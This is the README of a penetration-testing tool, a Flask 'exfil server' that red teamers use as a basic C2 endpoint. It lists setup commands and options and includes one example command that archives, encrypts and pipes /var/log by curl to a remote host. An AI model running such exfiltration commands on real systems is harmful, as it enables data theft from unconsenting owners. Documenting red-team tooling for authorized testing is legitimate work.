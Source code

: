 ![Red Drop](docs/RedDrop.png)
# RedDrop Exfil Server
RedDrop Exfil Server is a Python Flask Web Server for Penetration Testers, Red Teamers, and Security Professionals which features:
- [[File Upload]]
- [[Dynamic Request Parameter Logging]]
- [[Automatic Archive Extraction]]
- [[Automatic Decryption]]
- [[Automatic Decoding]]

This software is intended to be used as an a rudementary C2 endpoint for capturing web request data in various scenarios. Some examples may include:
- A blind command injection vulnerability
- An XSS attack where a quick and dynamic web request logging server is needed
- A situation where remote shell access has been obtained and a verbose-logging web-based exfiltration server is desired

**This project is still in development and some features may be buggy. If you run into problems, please open an Issue!**

### A note on security
This software should not be left generally accessible to the broader Internet. It is built with what some might consider an Arbitrary File Upload vulnerability by intention, and will accept and save files to the local disk without authorization or authentication. Due diligence should be taken to ensure that the system this software is deployed to is secured properly. A few recommendations:
- Place a Reverse Proxy to route and block traffic to this web application
- Whitelist your target's IP space
- Don't auto extract archives without understanding my filtering method

## Quick Start
### Docker
```bash
docker run -t -v "$PWD/uploads:/reddrop/uploads" -v "$PWD/logs:/reddrop/logs" -p "80:80" -n reddrop cyberbutler/reddrop-exfil-server -h
```
### PipEnv
```bash
pip install --user pipenv
pipenv install
pipenv shell
python reddrop-server.py -h
```

### Options
```bash
python reddrop-server.py -h

usage: reddrop-server.py [-h] [--host HOST] [--port PORT] [-c CONFIG] [--dump-config] [--debug] [-p {hex,openssl-aes256-pbkdf2,gzip,b64}]
                         [-A | --auto-process | --no-auto-process] [--auto-extract-tar]
                         [--encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD]

                      +:                     
                    .*##-                    
                   :##**#+                   
                  +#*****##:                 
                :##********#+                
               =#***********#+               
              =#******#******#*              
            .+#******#-*#*****##-            
           -#******#*.  =#******#*           
          +#******#+     :##*****##:         
        .*#*****##-        +#******#=        
       :#******#+.          -#******#+       
      -#******#-             :##*****#*.     
     +#******#:               .*#*****##:    
   :##*****#*.                  =#******#+   
    *#****#-                     .*#****#-   
   +#***##.                        =#***##:  
  +#****##.                        +#*****#: 
 +#****##.                          =#*****#.
:#*****#.                            ******#=
*#******         Red    Drop         -#******
#******+                             :#*****#
#*******                             -#*****#
*#*****#.                            +*******
-#*****#*                           -#*****#=
 *#*****#*.                        =#******#.
  *#******#=.                    -*#******#- 
   +#*******#*-               :+##******##:  
    -##*******##*+=-:...::-=+##********#*.   
      -*#**********#######***********#+:     
        -*#***********************##+.       
          .=+##***************##*=:          
              :-=+**######**+=:              

     A Webserver for File and Data Exfiltration.
        Author: @cyberbutler/@thecyberbutler

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -H HOST  The host IP Address to bind to (default: 0.0.0.0)
  --port PORT, -P PORT  The port to bind to (default: 80)
  -c CONFIG, --config CONFIG
                        YAML config file path (default: None)
  --dump-config         Dump the configuration settings as YAML (default: False)
  --debug               Enable Flask's Debug Mode (default: False)
  -p {hex,openssl-aes256-pbkdf2,gzip,b64}, --processor {hex,openssl-aes256-pbkdf2,gzip,b64}
                        Specify a processor to use. This flag can be used more than once to define multiple process_list functions. Use this
                        flag in the order in which you wish to process received data (default: [])
  -A, --auto-process, --no-auto-process
                        Automatically run processors based on detected data. This option is enabled by default, but should be disabled (--no-
                        auto-process) when you receive output you don't expect. Such as in the case of Base64 decoding being run on output that
                        is not Base64 encoded. Instead, force the process with the `-p` flag. (default: True)
  --auto-extract-tar, -x
                        Auto extract TAR archives received by the server. (default: False)
  --encryption-password PROCESSOR_ARGUMENTS.OPENSSL-AES256-PBKDF2.PASSWORD
                        The password used to decrypt/encrypt. (default: EncryptMe)

Far more configuration options exist which must be specified in Environment Variables, use `--dump-config` to see all of the options

```

### Examples
#### Exfiltrating a Tar archive and command output from a Linux system
```bash
tar cz /var/log | base64 | xxd -ps | gzip | openssl enc -aes-256-cbc -pass 'pass:EncryptMe' -e -a -pbkdf2 | curl 172.17.0.1$PWD -F 'logs=@-' -F "listing=`ls -al * | gzip | base64`"
```

![example-screenshot.png](docs/example-screenshot.png)

## Todo
- [ ] Greater documentation of techniques using this web server
- [ ] Chunked File Upload handling and example commands
- [ ] More Processing modules
- [ ] Expand archive extraction functionality
